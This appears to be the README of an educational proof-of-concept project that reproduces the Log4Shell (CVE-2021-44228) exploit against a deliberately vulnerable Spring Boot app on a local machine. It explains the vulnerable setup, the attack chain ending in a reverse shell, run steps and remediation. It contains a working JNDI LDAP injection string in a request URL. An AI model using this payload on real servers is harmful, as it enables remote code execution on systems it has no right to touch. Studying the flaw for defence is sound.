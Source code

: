 # Proof of Concept Spring-boot Log4J LDAP Exploit (CVE-2021-44228)
In this study project we demonstrate how to reproduce the Log4J LDAP exploit <a href="https://nvd.nist.gov/vuln/detail/CVE-2021-44228">(CVE-2021-44228)</a> in a Spring Boot web application. 
In the example application we see that Spring Boot version 2.6.1 is not vulnerable to the exploit by default as Log4J is not being used.
<a href="https://docs.spring.io/spring-boot/docs/2.6.6/reference/htmlsingle/#features.logging">Instead the Logback logger is used by default</a>:
```
[INFO] +- org.springframework.boot:spring-boot-starter-web:jar:2.6.1:compile
[INFO] |  +- org.springframework.boot:spring-boot-starter:jar:2.6.1:compile
[INFO] |  |  +- org.springframework.boot:spring-boot-starter-logging:jar:2.6.1:compile
[INFO] |  |  |  +- ch.qos.logback:logback-classic:jar:1.2.7:compile
```
To ensure that the Log4J-logger is used we replace `org.springframework.boot:spring-boot-starter-logging:jar` with `org.springframework.boot:spring-boot-starter-log4j2:jar` in the <a href="./pom.xml">pom.xml</a> file.
```
[INFO] +- org.springframework.boot:spring-boot-starter-log4j2:jar:2.6.1:compile
[INFO] |  +- org.apache.logging.log4j:log4j-slf4j-impl:jar:2.14.1:compile
[INFO] |  |  +- org.slf4j:slf4j-api:jar:1.7.32:compile
```
In Log4J version 2.14.1 the LDAP vulnerability is still present.
Additionally, it is necessary to use a Java 8 version lower than update 191, as in higher versions of Java
the property com.sun.jndi.ldap.object.trustURLCodebase is set to false by default and LDAP lookups are no longer executed by default.
# Tools
<a href="https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html">Java 8 (version < 191)</a> or 
<a href="https://archive.org/details/jdk-8u181">archive.org</a></br>
<a href="https://www.python.org/downloads/" >Python 3</a><br/>
<a href="https://maven.apache.org/download.cgi">Maven 3</a><br/>

# How it works
All actions are performed on a local test machine with the IP address `192.168.1.6`. 
It’s important to note that in a production environment the LDAP reference server and web server are considered untrusted.
These have been set up by a malicious actor with the intention of allowing your web application to download malicious code via the Log4J exploit.

<img src="./tools/log4j.png" alt="attack diagram" width="800px"/><br/>
It begins with a Spring Boot web application that uses a vulnerable version of Log4J.
The web application has a public REST endpoint that can be accessed via a GET request.
A typical request would look like this: http://192.168.1.6:8080/example?name=Jim. The response we receive is "Hello World! Jim."

-A-
For the exploit we replace the name parameter with a link to the attackers LDAP server:
http://192.168.1.6/example?name=${jndi:ldap://192.168.1.6:1389/Exploit}
The example REST endpoint receives the parameter and attempts to log it using Log4J. At this point, Log4J recognizes that the address is an LDAP reference and establishes a connection to the attackers LDAP server.

-B-
The LDAP server responds with a reference to a class file containing executable code.

-C-
This reference class file is downloaded and executed. In this case the downloaded class includes code to launch a shell.

-D-
The input and output of the initiated shell are sent through a socket to the attackers netcat listener. This allows the attacker to execute commands and code on the web application's server (RCE).

# How to Execute
<details>
  <summary>Step 1: Run start-poc.bat</summary>
  This process will take approximately one minute to complete.
</details>
<details>
  <summary>Step 2: Wait for the 4 processes to start, then press Enter to continue.</summary>
  <img src="./tools/exploit-1.png" width="1000px"/><br/>
</details>
<details>
  <summary>Step 3: Press Enter to send the payload.</summary>
  <img src="./tools/exploit-2.png" width="1000px"/>
</details>
<details>
  <summary>Step 4: Press Enter to terminate all created processes.</summary> 
  Process completed.
</details>

# How to Resolve
As mentioned earlier Spring Boot uses the Logback-logger by default so you should not be vulnerable. 
If you are using Log4J, as in this sample application, make sure you are using at least Spring Boot 2.6.2.
In Spring Boot 2.6.2 version 2.17.1 of Log4J is used which is no vulnerable to the LDAP attack.